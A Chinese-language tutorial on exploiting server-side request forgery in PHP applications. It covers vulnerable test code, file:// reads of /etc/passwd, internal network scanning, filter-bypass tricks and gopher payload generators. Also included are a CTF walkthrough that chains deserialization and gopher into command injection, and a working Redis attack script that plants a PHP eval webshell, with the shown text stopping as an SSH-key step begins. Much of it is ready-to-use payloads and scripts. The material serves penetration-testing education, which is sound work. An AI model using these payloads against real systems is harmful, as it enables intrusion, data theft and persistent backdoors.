

## 0x01 漏洞详情


SSRF（Server-Side Request  Forgery:服务器端请求伪造）是一种由攻击者构造形成并由服务端发起恶意请求的一个安全漏洞。正是因为恶意请求由服务端发起，而服务端能够请求到与自身相连而与外网隔绝的内部网络系统，所以一般情况下，SSRF的攻击目标是攻击者无法直接访问的内网系统。

SSRF漏洞的形成大多是由于服务端提供了从其他服务器应用获取数据的功能而没有对目标地址做过滤和限制。  例如，黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址的图片，下载等，利用的就是服务端请求伪造，SSRF漏洞可以利用存在缺陷的WEB应用作为代理攻击远程和本地的服务器。

如下图所示，服务器Ubuntu为WEB服务器，可被攻击者访问，内网中的其他服务器无法被攻击者直接访问。假设服务器Ubuntu中的某个WEB应用存在SSRF漏洞，那我们就可以操作这个WEB服务器去读取本地的文件、探测内网主机存活、探测内网主机端口等，如果借助相关网络协议，我们还可以攻击内网中的Redis、MySql、FastCGI等应用，WEB服务器在整个攻击过程中被作为中间人进行利用。

**容易出现SSRF的地方有：**

> 1. 社交分享功能：获取超链接的标题等内容进行显示
> 2. 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
> 3. 在线翻译：给网址翻译对应网页的内容
> 4. 图片加载/下载：例如富文本编辑器中的点击下载图片到本地、通过URL地址加载或下载图片
> 5. 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验
> 6. 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试
> 7. 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作
> 8. 数据库内置功能：数据库的比如mongodb的copyDatabase函数
> 9. 邮件系统：比如接收邮件服务器地址
> 10. 编码处理、属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等
> 11. 未公开的api实现以及其他扩展调用URL的功能：可以利用google语法加上这些关键字去寻找SSRF漏洞。一些的url中的关键字有：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……
> 12. 从远程服务器请求资源

**SSRF漏洞的危害：**

> 1. 对外网、服务器所在内网、服务器本地进行端口扫描，获取一些服务的banner信息等。
> 2. 攻击运行在内网或服务器本地的其他应用程序，如redis、mysql等。
> 3. 对内网Web应用进行指纹识别，识别企业内部的资产信息。
> 4. 攻击内外网的Web应用，主要是使用HTTP GET/POST请求就可以实现的攻击，如sql注入、文件上传等。
> 5. 利用file协议读取服务器本地文件等。
> 6. 进行跳板攻击等。

## 0x02 SSRF漏洞相关函数和类

- file_get_contents()：将整个文件或一个url所指向的文件读入一个字符串中。
- readfile()：输出一个文件的内容。
- fsockopen()：打开一个网络连接或者一个Unix 套接字连接。
- curl_exec()：初始化一个新的会话，返回一个cURL句柄，供curl_setopt()，curl_exec()和curl_close() 函数使用。
- fopen()：打开一个文件文件或者 URL。
- ......

上述函数函数使用不当会造成SSRF漏洞。 此外，PHP原生类SoapClient在触发反序列化时可导致SSRF。

### file_get_contents()

测试代码：

```
// ssrf.php
<?php
$url = $_GET['url'];;
echo file_get_contents($url);
?>
```

上述测试代码中，file_get_contents() 函数将整个文件或一个url所指向的文件读入一个字符串中，并展示给用户，我们构造类似`ssrf.php?url=../../../../../etc/passwd`的paylaod即可读取服务器本地的任意文件。


readfile()函数与file_get_contents()函数相似。

### fsockopen()

`fsockopen($hostname,$port,$errno,$errstr,$timeout)`用于打开一个网络连接或者一个Unix  套接字连接，初始化一个套接字连接到指定主机（hostname），实现对用户指定url数据的获取。该函数会使用socket跟服务器建立tcp连接，进行传输原始数据。  fsockopen()将返回一个文件句柄，之后可以被其他文件类函数调用（例如：fgets()，fgetss()，fwrite()，fclose()还有feof()）。如果调用失败，将返回false。

测试代码：

```
// ssrf.php
<?php
$host=$_GET['url'];
$fp = fsockopen($host, 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: $host\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fgets($fp, 128);
    }
    fclose($fp);
}
?>
```

构造`ssrf.php?url=www.baidu.com`即可成功触发ssrf并返回百度主页：


### curl_exec()

curl_init(url)函数初始化一个新的会话，返回一个cURL句柄，供curl_setopt()，curl_exec()和curl_close() 函数使用。

测试代码：

```
// ssrf.php
<?php 
if (isset($_GET['url'])){
	$link = $_GET['url'];
	$curlobj = curl_init(); // 创建新的 cURL 资源
	curl_setopt($curlobj, CURLOPT_POST, 0);
	curl_setopt($curlobj,CURLOPT_URL,$link);
	curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1); // 设置 URL 和相应的选项
	$result=curl_exec($curlobj); // 抓取 URL 并把它传递给浏览器
	curl_close($curlobj); // 关闭 cURL 资源，并且释放系统资源
 
	// $filename = './curled/'.rand().'.txt';
	// file_put_contents($filename, $result); 
	echo $result;
}
?>
```

构造`ssrf.php?url=www.baidu.com`即可成功触发ssrf并返回百度主页：


### SoapClient

SOAP是简单对象访问协议，简单对象访问协议（SOAP）是一种轻量的、简单的、基于 XML 的协议，它被设计成在 WEB 上交换结构化的和固化的信息。PHP 的 SoapClient 就是可以基于SOAP协议可专门用来访问 WEB 服务的 PHP 客户端。

SoapClient是一个php的内置类，当其进行反序列化时，如果触发了该类中的`__call`方法，那么`__call`便方法可以发送HTTP和HTTPS请求。该类的构造函数如下：

```
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

- 第一个参数是用来指明是否是wsdl模式。
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而 uri 是SOAP服务的目标命名空间。

知道上述两个参数的含义后，就很容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数为一个包含location和uri的数组，location选项的值设置为target_url：

```
// ssrf.php
<?php
$a = new SoapClient(null,array('uri'=>'http://47.xxx.xxx.72:2333', 'location'=>'http://47.xxx.xxx.72:2333/aaa'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

47.xxx.xxx.72监听2333端口，访问ssrf.php，即可在47.xxx.xxx.72上得到访问的数据：


如上图所示，ssrf触发成功。

由于它仅限于http/https协议，所以用处不是很大。但是如果这里的http头部还存在crlf漏洞，那么我们就可以进行ssrf+crlf，注入或修改一些http请求头，详情请看：[《SoapClient+crlf组合拳进行SSRF》](https://www.anquanke.com/post/id/202025)

## 0x03 SSRF漏洞利用的相关协议

SSRF漏洞的利用所涉及的协议有：

- file协议： 在有回显的情况下，利用 file 协议可以读取任意文件的内容
- dict协议：泄露安装软件版本信息，查看端口，操作内网redis服务等
- gopher协议：gopher支持发出GET、POST请求。可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell
- http/s协议：探测内网主机存活

下面我们对这些协议的利用进行逐一演示。

## 0x04 常见利用方式（file、http/s和dict协议）

SSRF的利用主要就是读取内网文件、探测内网主机存活、扫描内网端口、攻击内网其他应用等，而这些利用的手法无一不与这些协议息息相关。

以下几个演示所用的测试代码：

```
// ssrf.php
<?php 
if (isset($_GET['url'])){
	$link = $_GET['url'];
	$curlobj = curl_init(); // 创建新的 cURL 资源
	curl_setopt($curlobj, CURLOPT_POST, 0);
	curl_setopt($curlobj,CURLOPT_URL,$link);
	curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1); // 设置 URL 和相应的选项
	$result=curl_exec($curlobj); // 抓取 URL 并把它传递给浏览器
	curl_close($curlobj); // 关闭 cURL 资源，并且释放系统资源
 
	// $filename = './curled/'.rand().'.txt';
	// file_put_contents($filename, $result); 
	echo $result;
}
?>
```

### 读取内网文件（file协议）

我们构造如下payload，即可将服务器上的本地文件及网站源码读取出来：

```
ssrf.php?url=file:///etc/passwd
ssrf.php?url=file:///var/www/html/flag.php
```


### 探测内网主机存活（http/s协议）

一般是先想办法得到目标主机的网络配置信息，如读取/etc/hosts、/proc/net/arp、/proc/net/fib_trie等文件，从而获得目标主机的内网网段并进行爆破。

域网IP地址范围分三类，以下IP段为内网IP段：

- C类：192.168.0.0 - 192.168.255.255
- B类：172.16.0.0 - 172.31.255.255
- A类：10.0.0.0 - 10.255.255.255

测试环境如下：


假设WEB服务器Ubuntu上面存在上述所说的SSRF漏洞，我们构造如下payload，便可通过Ubuntu服务器发送请求去探测内网存活的主机：

```
ssrf.php?url=http://192.168.52.1
ssrf.php?url=http://192.168.52.6
ssrf.php?url=http://192.168.52.25
......
```

为了方便，我们可以借助burpsuite的Intruder模块进行爆破，如下所示：


将爆破的线程尽可能设的小一些。开始爆破后即可探测到目标内网中存在如下两个存活的主机（192.168.52.130和192.168.52.131）：


### 扫描内网端口（http/s和dict协议）

同样是上面那个测试环境：


我们利用dict协议构造如下payload即可查看内网主机上开放的端口及端口上运行服务的版本信息等：

```
ssrf.php?url=dict://192.168.52.131:6379/info   // redis
ssrf.php?url=dict://192.168.52.131:80/info     // http
ssrf.php?url=dict://192.168.52.130:22/info   // ssh
```


同样可以借助burpsuite来爆破内网主机上的服务。

## 0x05 相关绕过姿势

对于SSRF的限制大致有如下几种：

- 限制请求的端口只能为Web端口，只允许访问HTTP和HTTPS的请求。
- 限制域名只能为http://www.xxx.com
- 限制不能访问内网的IP，以防止对内网进行攻击。
- 屏蔽返回的详细信息。

### 利用HTTP基本身份认证的方式绕过

如果目标代码限制访问的域名只能为 http://www.xxx.com，那么我们可以采用HTTP基本身份认证的方式绕过。即@：[http://www.xxx.com@www.evil.com](http://www.evil.com)

### 利用302跳转绕过内网IP

绕过对内网ip的限制我们可以**利用302跳转**的方法，有以下两种。

（1）网络上存在一个很神奇的服务，网址为 [http://xip.io](http://xip.io/)，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，举个例子：

当我们访问：http://127.0.0.1.xip.io/flag.php时，实际访问的是http://127.0.0.1/1.php。像这种网址还有http://nip.io，http://sslip.io。

如下示例（flag.php仅能从本地访问）：


（2）短地址跳转绕过，这里也给出一个网址 https://4m.cn/：


直接使用生成的短连接 https://4m.cn/FjOdQ就会自动302跳转到 http://127.0.0.1/flag.php上，这样就可以绕过WAF了：



### 进制的转换绕过内网IP

可以使用一些不同的进制替代ip地址，从而绕过WAF，这里给出个从网上扒的php脚本可以一键转换：

```
<?php
$ip = '127.0.0.1';
$ip = explode('.',$ip);
$r = ($ip[0] << 24) | ($ip[1] << 16) | ($ip[2] << 8) | $ip[3] ;
if($r < 0) {
$r += 4294967296;
}
echo "十进制:";     // 2130706433
echo $r;
echo "八进制:";     // 0177.0.0.1
echo decoct($r);
echo "十六进制:";   // 0x7f.0.0.1
echo dechex($r);
?>
```

### 其他各种指向127.0.0.1的地址

```
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]:80/           # 在liunx下可用，window测试了下不行
http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```

### 利用不存在的协议头绕过指定的协议头

`file_get_contents()`函数的一个特性，即当PHP的`file_get_contents()`函数在遇到不认识的协议头时候会将这个协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。（include()函数也有类似的特性）

测试代码：

```
// ssrf.php
<?php
highlight_file(__FILE__);
if(!preg_match('/^https/is',$_GET['url'])){
die("no hack");
}
echo file_get_contents($_GET['url']);
?>
```

上面的代码限制了url只能是以https开头的路径，那么我们就可以如下：

```
httpsssss://
```

此时`file_get_contents()`函数遇到了不认识的伪协议头“httpsssss://”，就会将他当做文件夹，然后再配合目录穿越即可读取文件：

```
ssrf.php?url=httpsssss://../../../../../../etc/passwd
```


这个方法可以在SSRF的众多协议被禁止且只能使用它规定的某些协议的情况下来进行读取文件。

### 利用URL的解析问题

该思路来自Orange Tsai成员在2017 BlackHat 美国黑客大会上做的题为[《A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages》](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)的分享。主要是利用readfile和parse_url函数的解析差异以及curl和parse_url解析差异来进行绕过。

**（1）利用readfile和parse_url函数的解析差异绕过指定的端口**

测试代码：

```
// ssrf.php
<?php
$url = 'http://'. $_GET[url];
$parsed = parse_url($url);
if( $parsed[port] == 80 ){  // 这里限制了我们传过去的url只能是80端口的
	readfile($url);
} else {
	die('Hacker!');
}
```

用python在当前目录下起一个端口为11211的WEB服务：


上述代码限制了我们传过去的url只能是80端口的，但如果我们想去读取11211端口的文件的话，我们可以用以下方法绕过：

```
ssrf.php?url=127.0.0.1:11211:80/flag.txt
```


如上图所示成功读取了11211端口中的flag.txt文件，下面用BlackHat的图来说明原理：


从上图中可以看出readfile()函数获取的端口是最后冒号前面的一部分（11211），而parse_url()函数获取的则是最后冒号后面的的端口（80），利用这种差异的不同，从而绕过WAF。

这两个函数在解析host的时候也有差异，如下图：


readfile()函数获取的是@号后面一部分（evil.com），而parse_url()函数获取的则是@号前面的一部分（google.com），利用这种差异的不同，我们可以绕过题目中parse_url()函数对指定host的限制。

**（2）利用curl和parse_url的解析差异绕指定的host**

原理如下：


从上图中可以看到curl()函数解析的是第一个@后面的网址，而parse_url()函数解析的是第二个@后面的网址。利用这个原理我们可以绕过题目中parse_url()函数对指定host的限制。

测试代码：

```
<?php
highlight_file(__FILE__);
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;// 检查是否是内网ip
}
function safe_request_url($url)
{
    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }
}
$url = $_GET['url'];
if(!empty($url)){
    safe_request_url($url);
}
?>
```

上述代码中可以看到`check_inner_ip`函数通过`url_parse()`函数检测是否为内网IP，如果不是内网 IP ，则通过`curl()`请求 url 并返回结果，我们可以利用curl和parse_url解析的差异不同来绕过这里的限制，让`parse_url()`处理外部网站网址，最后`curl()`请求内网网址。paylaod如下：

```
ssrf.php?url=http://@127.0.0.1:80@www.baidu.com/flag.php
```


的 [[2020 首届“祥云杯”网络安全大赛\]doyouknowssrf](https://whoamianony.top/2020/11/24/ctf-bi-sai-ji-lu/2020-shou-jie-xiang-yun-bei-wang-luo-an-quan-da-sai-writeup/#toc-heading-5)这道题利用的就是这个思路。

## 0x06 常见攻击方式（Gopher协议）

### 1. Gopher协议在SSRF中的利用

Gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用TCP 70端口。但在WWW出现后，Gopher失去了昔日的辉煌。

现在的Gopher协议已经很少有人再使用它了，但是该协议在SSRF中却可以发挥巨大的作用，可以说是SSRF中的万金油。由于Gopher协议支持发出GET、POST请求，我们可以先截获GET请求包和POST请求包，再构造成符合Gopher协议请求的payload进行SSRF利用，甚至可以用它来攻击内网中的Redis、MySql、FastCGI等应用，这无疑大大扩展了我们的SSRF攻击面。

**（1）Gopher协议格式**

```
URL: gopher://<host>:<port>/<gopher-path>_后接TCP数据流

# 注意不要忘记后面那个下划线"_"，下划线"_"后面才开始接TCP数据流，如果不加这个"_"，那么服务端收到的消息将不是完整的，该字符可随意写。
```

- gopher的默认端口是70
- **如果发起POST请求，回车换行需要使用`%0d%0a`来代替`%0a`，如果多个参数，参数之间的&也需要进行URL编码**

> 那么如何利用Gopher发送HTTP的请求呢？例如GET请求。我们直接发送一个原始的HTTP包不就行了吗。在gopher协议中发送HTTP的数据，需要以下三步：
>
> 1. 抓取或构造HTTP数据包
> 2. URL编码、将回车换行符`%0a`替换为`%0d%0a`
> 3. 发送符合gopher协议格式的请求

**（2）利用Gopher协议发送HTTP GET请求**

测试代码：

```
// echo.php
<?php
echo "Hello ".$_GET["whoami"]."\n"
?>
```

接下来我们构造payload。一个典型的GET型的HTTP包类似如下：

```
GET /echo.php?whoami=Bunny HTTP/1.1
Host: 47.xxx.xxx.72
```

然后利用以下脚本进行一步生成符合Gopher协议格式的payload：

```
import urllib.parse
payload =\
"""GET /echo.php?whoami=Bunny HTTP/1.1
Host: 47.xxx.xxx.72
"""  
# 注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://47.xxx.xxx.72:80/'+'_'+new
print(result)
```


> **注意这几个问题：**
>
> 1. 问号（?）需要转码为URL编码，也就是%3f
> 2. 回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
> 3. 在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）

然后执行：

```
curl gopher://47.xxx.xxx.72:80/_GET%20/echo.php%3Fwhoami%3DBunny%20HTTP/1.1%0D%0AHost%3A%2047.xxx.xxx.72%0D%0A
```


如上图，成功用GET方法传参并输出“Hello Bunny”。

**（3）利用Gopher协议发送HTTP POST请求**

测试代码：

```
// echo.php
<?php
echo "Hello ".$_POST["whoami"]."\n"
?>
```

接下来我们构造payload。一个典型的POST型的HTTP包类似如下：

```
POST /echo.php HTTP/1.1
Host: 47.xxx.xxx.72
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

whoami=Bunny
```

**注意：上面那四个HTTP头是POST请求必须的，即POST、Host、Content-Type和Content-Length。如果少了会报错的，而GET则不用。并且，特别要注意Content-Length应为字符串“whoami=Bunny”的长度。**

最后用脚本我们将上面的POST数据包进行URL编码并改为gopher协议

```
import urllib.parse
payload =\
"""POST /echo.php HTTP/1.1
Host: 47.xxx.xxx.72
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

whoami=Bunny
"""  
# 注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://47.xxx.xxx.72:80/'+'_'+new
print(result)
```


然后执行：

```
curl gopher://47.xxx.xxx.72:80/_POST%20/echo.php%20HTTP/1.1%0D%0AHost%3A%2047.xxx.xxx.72%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2012%0D%0A%0D%0Awhoami%3DBunny%0D%0A
```


如上图，成功用POST方法传参并输出“Hello Bunny”。

**[2020 科来杯初赛]Web1**这道题就是典型的运用Gopher发送HTTP POST请求进行SSRF攻击的思路。

### [2020 科来杯初赛]Web1

进入题目后即给处源码：


这里很明显就是一个SSRF，url过滤了`file`、`ftp`，但是必须要包含`127.0.0.1`。并且，我们还发现一个tool.php页面，但是该页面进去之后仅显示一个“Not localhost”，我们可以用这个ssrf将tool.php的源码读住来，构造反序列化payload：

```
<?php
class Welcome {
protected $url = "http://127.0.0.1/tool.php";

}
$poc = new Welcome;
//echo serialize($poc);
echo urlencode(serialize($poc));
?>
```

生成：

```
O%3A7%3A%22Welcome%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00url%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Ftool.php%22%3B%7D

// O:7:"Welcome":1:{s:6:"*url";s:25:"http://127.0.0.1/tool.php";}
```

将Welcome后面表示对象属性个数的“1”改为“2”即可绕过`__destruct()`的限制。


读出来tool.php的源码为：

```
#tool.php
<?php
error_reporting(0);
$respect_show_ping = function($params) {
   extract($params);
   $ip = isset($ip) ? $ip :'127.0.0.1';
   system('ping -c 1 '.$ip);
};
if ($_SERVER["REMOTE_ADDR"] !== "127.0.0.1"){
   echo '<h2>Not localhost!</h2>';
}
else {
   highlight_file(__FILE__);
   $respect_show_ping($_POST);
}
?>
```

可知tool.php页面存在命令执行漏洞。当REMOTE_ADDR为127.0.0.1时才可执行命令。REMOTE_ADDR头获取的是客户端的真实的IP，但是这个客户端是相对服务器而言的，也就是实际上与服务器相连的机器的IP（建立tcp连接的那个），这个值是不可以伪造的，如果没有代理的话，这个值就是用户实际的IP值，有代理的话，用户的请求会经过代理再到服务器，这个时候REMOTE_ADDR会被设置为代理机器的IP值。而X-Forwarded-For的值是可以篡改的。

既然这里要求当REMOTE_ADDR为127.0.0.1时才可执行命令，且REMOTE_ADDR的值是不可以伪造的，我们要想让REMOTE_ADDR的值为127.0.0.1，不可能通过修改X-Forwarded-For的值来实现，我们要利用SSRF。

我们可以利用index.php页面的SSRF利用gopher协议发POST包请求tool.php，进行命令执行。这样，整个攻击过程是在服务端进行的REMOTE_ADDR的值也就是127.0.0.1了。

SSRF，利用gopher发POST包，进行命令执行

```
import urllib.parse
test =\
"""POST /tool.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

ip=;cat /flag
"""  
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
print(result)
```

这里因为我们是把payload发送到服务端让服务端执行，所以我们的Host和gopher里的Host为127.0.0.1。

生成gopher协议格式的payload为：

```
gopher://127.0.0.1:80/_POST%20/tool.php%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2013%0D%0A%0D%0Aip%3D%3Bcat%20/flag%0D%0A
```

然后构造反序列化exp：

```
<?php
class Welcome {
    protected $url = "gopher://127.0.0.1:80/_POST%20/tool.php%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2013%0D%0A%0D%0Aip%3D%3Bcat%20/flag%0D%0A";
    
}
$poc = new Welcome;
//echo serialize($poc);
echo urlencode(serialize($poc));
?>
```

生成payload：

```
O%3A7%3A%22Welcome%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00url%22%3Bs%3A197%3A%22gopher%3A%2F%2F127.0.0.1%3A80%2F_POST%2520%2Ftool.php%2520HTTP%2F1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application%2Fx-www-form-urlencoded%250D%250AContent-Length%253A%252013%250D%250A%250D%250Aip%253D%253Bcat%2520%2Fflag%250D%250A%22%3B%7D
```

同样将Welcome后面表示对象属性个数的“1”改为“2”绕过`__destruct()`的限制后执行：


如上图，命令执行成功。

**注意：**这里要注意的是，我们发送的是POST包，而如果发送的是GET包的话，当这个URL经过服务器时，payload部分会被自动url解码，%20等字符又会被转码为空格。所以，curl_exec在发起gopher时用的就是没有进行URL编码的值，就导致了现在的情况，所以我们要对payload进行二次URL编码。编码结果类似如下：

```
gopher%3a%2f%2f127.0.0.1%3a80%2f_POST%2520%2ftool.php%2520HTTP%2f1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application%2fx-www-form-urlencoded%250D%250AContent-Length%253A%252013%250D%250A%250D%250Aip%253D%253Bcat%2520%2fflag%250D%250A
```

## 0x07 攻击内网Redis


Redis是数据库的意思。Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

> **什么是Redis未授权访问？**
>
> Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将  Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空），会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取  Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的 config  命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys  文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
>
> 简单说，漏洞的产生条件有以下两点：
>
> - redis 绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。
> - 没有设置密码认证（一般为空），可以免密码远程登录redis服务。

在SSRF漏洞中，如果通过端口扫描等方法发现目标主机上开放6379端口，则目标主机上很有可能存在Redis服务。此时，如果目标主机上的Redis由于没有设置密码认证、没有进行添加防火墙等原因存在未授权访问漏洞的话，那我们就可以利用Gopher协议远程操纵目标主机上的Redis，可以利用 Redis 自身的提供的 config  命令像目标主机写WebShell、写SSH公钥、创建计划任务反弹Shell等，其思路都是一样的，就是先将Redis的本地数据库存放目录设置为web目录、~/.ssh目录或/var/spool/cron目录等，然后将dbfilename（本地数据库文件名）设置为文件名你想要写入的文件名称，最后再执行save或bgsave保存，则我们就指定的目录里写入指定的文件了。

下面我们对攻击Redis的手法进行演示。测试环境如下，内网中其他主机均有外网IP并可以上网：


在上文扫描内网端口的实验中，我们发现了内网中有一个IP为192.168.52.131的主机在6379端口上运行着一个Redis服务，下面我们就用它来演示，通过Ubuntu服务器上的SSRF漏洞去攻击内网主机（192.168.52.131）的Redis。

### 绝对路径写WebShell

首先构造redis命令：

```
flushall
set 1 '<?php eval($_POST["whoami"]);?>'
config set dir /var/www/html
config set dbfilename shell.php
save
```

然后写一个脚本，将其转化为Gopher协议的格式（脚本时从网上嫖的，谁让我菜呢~~~大佬勿喷）：

```
import urllib
protocol="gopher://"
ip="192.168.52.131"
port="6379"
shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(shell.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
```

执行后生成paylaod如下：


这里将生成的payload要进行url二次编码（因为我们发送payload用的是GET方法），然后利用Ubuntu服务器上的SSRF漏洞，将二次编码后的payload打过去就行了：

```
ssrf.php?url=gopher%3A%2F%2F192.168.52.131%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252435%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522whoami%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

如下所示，成功在主机192.168.52.131上面写入WebShell：


### 写SSH公钥

同样，我们也可以直接这个存在Redis未授权的主机的~/.ssh目录下写入SSH公钥，直接实现免密登录，但前提是~/.ssh目录存在，如果不存在我们可以写入计划任务来创建该目录。

构造redis命令：

```
flushall
